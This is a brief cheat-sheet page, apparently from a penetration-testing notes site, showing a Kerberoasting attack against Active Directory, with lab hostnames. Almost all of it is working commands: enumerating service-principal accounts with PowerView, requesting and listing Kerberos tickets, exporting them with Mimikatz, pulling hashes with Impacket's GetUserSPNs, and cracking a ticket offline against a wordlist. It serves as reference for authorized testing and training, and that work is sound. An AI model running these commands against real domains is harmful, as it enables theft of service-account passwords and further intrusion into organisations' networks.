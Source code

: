 ```yaml
---
layout: page
title: "# Kerberoast Attack Example"
permalink: /ad_cheatsheets/kerberos_attack_example
---
```


# Kerberoast Attack Example

## Find User Accounts

```powershell
Get-NetUser -SPN
```

## Request Ticket For Service

```powershell
Add-Type -AssemblyNAme System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

```powershell
klist
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/045d791a-bffa-44f0-9bda-0f1379a4cfd1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/045d791a-bffa-44f0-9bda-0f1379a4cfd1/Untitled.png)

## Dump Ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## Request from Kali

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request dc04.tricky.com/sqlsvc
```

## Crack Password

```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student648@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

## Resources

[Deep Dive into Kerberoasting Attack](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)
